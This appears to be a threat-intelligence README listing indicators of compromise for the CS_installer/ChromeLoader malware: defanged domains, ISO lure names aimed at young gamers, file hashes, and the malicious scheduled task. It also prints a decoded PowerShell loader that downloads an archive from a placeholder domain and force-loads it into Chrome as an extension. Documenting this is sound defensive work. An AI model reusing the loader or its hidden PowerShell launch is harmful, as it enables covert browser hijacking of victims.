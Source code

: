 # Observed malicious IOCs for the CS_installer Malware

### Date of first occurrence

01-04-2022

### Domains Observed

```
hxxps[://]learnataloukt[.]xyz
hxxps[://]brokenna[.]work
```

### Malicious ISO

The Naming convention of the ISOs appear to be targeting young adults.

```
Universal Chat Spammer.iso
Roblox Muscle Legends Script _ AutoFarm + More ....iso
[UPDATED] Bee Swarm Simulator Script GUI _ Hack....iso
This_Young_Maidenhead_Family_Now_Makes_15800_..._1.iso
How To Install Shaders For Minecraft 1.18.1_1....iso => reported by reddit user remuchiiee
```

https://www.virustotal.com/gui/file/fa52844b5b7fcc0192d0822d0099ea52ed1497134a45a2f06670751ef5b33cd3

mounted ISO mainly contains:
```
\Device\CdRom0\CS_INSTALLER.EXE
\Device\CdRom0\CS_installer.exe.config
\Device\CdRom0\CS_installer.pdb
\Device\CdRom0\CS_installer.pdb
\Device\CdRom0\Microsoft.Win32.TaskScheduler.dll
```

### CS_installers

https://www.virustotal.com/gui/file/ded20df574b843aaa3c8e977c2040e1498ae17c12924a19868df5b12dee6dfdd  
https://www.virustotal.com/gui/file/5f57a4495b9ab853b9d2ab7d960734645ebe5765e8df3b778d08f86119e1695c  

### Scheduled Task

```
ChromeLoader

cmd /c start /min "" powershell -ExecutionPolicy Bypass -WindowStyle Hidden -E <base64EncodedPayload>
```

### Snippet of base64 decoded powershell script

```powershell
$extPath = "$($env:LOCALAPPDATA)\chrome"
$confPath = "$extPath\conf.js"
$archiveName = "$($env:LOCALAPPDATA)\archive.zip"
$taskName = "ChromeLoader"
$domain = "SomeMaliciousDomain"

$isOpen = 0
$dd = 0
$ver = 0

(Get-WmiObject Win32_Process -Filter "name='chrome.exe'") | Select-Object CommandLine | ForEach-Object {
	if($_ -Match "load-extension"){
		break
	}

	$isOpen = 1
}

if($isOpen){

	if(-not(Test-Path -Path "$extPath")){

		try{
			wget "https://$domain/archive.zip" -outfile "$archiveName"
		}catch{
			break
		}

		Expand-Archive -LiteralPath "$archiveName" -DestinationPath "$extPath" -Force
		Remove-Item -path "$archiveName" -Force

	}
	else{

		try{
			if (Test-Path -Path "$confPath")
			{
				$conf = Get-Content -Path $confPath
				$conf.Split(";") | ForEach-Object {
					if ($_ -Match "dd")
					{
						$dd = $_.Split('"')[1]
					}elseif ($_ -Match "ExtensionVersion")
					{
						$ver = $_.Split('"')[1]
					}
				}
			}
		}catch{}

		if ($dd -and $ver){


			try{

				$un = wget "https://$domain/un?did=$dd&ver=$ver"

				if($un -Match "$dd"){
					Unregister-ScheduledTask -TaskName "$taskName" -Confirm:$false
					Remove-Item -path "$extPath" -Force -Recurse
				}

			}catch{}

			try{
				wget "https://$domain/archive.zip?did=$dd&ver=$ver" -outfile "$archiveName"
			}
			catch{}

			if (Test-Path -Path "$archiveName"){
				Expand-Archive -LiteralPath "$archiveName" -DestinationPath "$extPath" -Force
				Remove-Item -path "$archiveName" -Force
			}

		}

	}

	try{
		Get-Process chrome | ForEach-Object { $_.CloseMainWindow() | Out-Null}
		start chrome --load-extension="$extPath", --restore-last-session, --noerrdialogs, --disable-session-crashed-bubble
	}catch{}

}
```

#### If you found additional IOCs that is not listed here, feel free to provide the *defanged* domain and ISO name as an issue.

You can defang a URL by using Cyberchef https://gchq.github.io/CyberChef/#recipe=Defang_URL(true,true,true,'Valid%20domains%20and%20full%20URLs')
